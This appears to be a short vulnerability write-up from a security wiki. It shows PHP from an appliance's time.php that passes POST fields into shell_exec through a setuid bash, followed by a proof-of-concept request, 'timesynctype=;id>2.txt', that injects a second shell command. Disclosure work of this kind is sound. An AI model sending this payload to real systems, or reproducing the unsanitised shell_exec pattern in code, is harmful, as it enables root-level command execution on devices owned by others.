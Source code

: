 ```python
<?php
//print_html_end();
?>
```

Something to note

```python
if($_SERVER['REQUEST_METHOD'] == 'POST')
{
	if(!user_is_admin())
	{
		showErrMessage("permission denied");
		exit;
	}
	$timesynctype = $_POST["timesynctype"];
	if($timesynctype!="client")
	{
		$output = shell_exec("/bin/bashsuid -p -c \"/usr/sbin/ntpdate " .$timesynctype. "\"");
		showMessage($output);		
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}else
	{
		$ctime = $_POST["ctime"];
		shell_exec("/bin/bashsuid -p -c \"date " .$ctime. "\"");
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}
}
```

All parameters are controllable, construct POC

```python
POST /time.php

timesynctype=;id>2.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631233295865-9e39ed70-d6e2-4ccf-8feb-02f763f4fc02.png)
